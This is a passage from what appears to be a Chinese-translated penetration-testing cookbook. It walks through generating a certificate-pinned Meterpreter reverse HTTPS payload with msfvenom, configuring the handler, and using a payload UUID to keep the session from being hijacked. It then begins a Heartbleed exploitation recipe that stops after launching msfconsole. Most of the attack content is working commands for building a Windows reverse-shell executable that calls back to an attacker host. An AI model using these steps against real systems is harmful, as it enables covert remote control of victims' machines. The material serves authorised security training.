 ![](assets/47258e16-84a4-43ae-9b07-dbe445ac2b7a.png)

我们相应地填写国家代码等信息和其他信息：

```
 cat meterpreter.key meterpreter.crt > meterpreter.pem
```

2.  前面的命令基本上是先打开两个文件，然后将它们写入一个文件。然后，我们使用生成的证书生成有效负载，使用以下方法：

```
 msfvenom -p windows/meterpreter/reverse_winhttps LHOST=IP
        LPORT=443 HandlerSSLCert=meterpreter.pem
        StagerVerifySSLCert=true
        -f exe -o payload.exe
```

以下屏幕截图显示了前面命令的输出：

![](assets/32122a12-11f3-44bd-8b56-fd08c8dcb269.png)

3.  要设置选项，请使用以下命令：

```
 set HandlerSSLCert /path/to/pem_file
 set StagerVerifySSLCert true
```

以下屏幕截图显示了上述命令的示例：

![](assets/c3b4519e-19dc-4da5-a558-e96444b47071.png)

4.  现在我们运行我们的处理程序，我们看到 stager 验证了与处理程序的连接，然后建立了连接：

![](assets/85e5b7ef-9782-4d6a-a2a5-d5bc75cf0f10.png)

# 还有更多。。。

我们可以在使用`-PayloadUUIDName=`开关生成有效负载时提到我们自己的 UUID，从而将其提升到更高级的水平。使用此方法，即使其他攻击者可以访问我们的证书，他们也无法劫持我们的会话，因为 UUID 不匹配。

# 一颗流血的心的故事

HeartBleed 是 OpenSSL 加密中的一个漏洞，据说该漏洞于 2012 年引入，并于 2014 年公开披露。这是一个缓冲区过度读取漏洞，可读取的数据超过允许的数量。

在此配方中，您将学习如何使用 Metasploit 的辅助模块利用 HeartBleed。

# 怎么做。。。

要了解 HeartBleed，请执行以下步骤：

1.  我们通过键入以下内容启动`msfconsole`：

```
 msfconsole
```
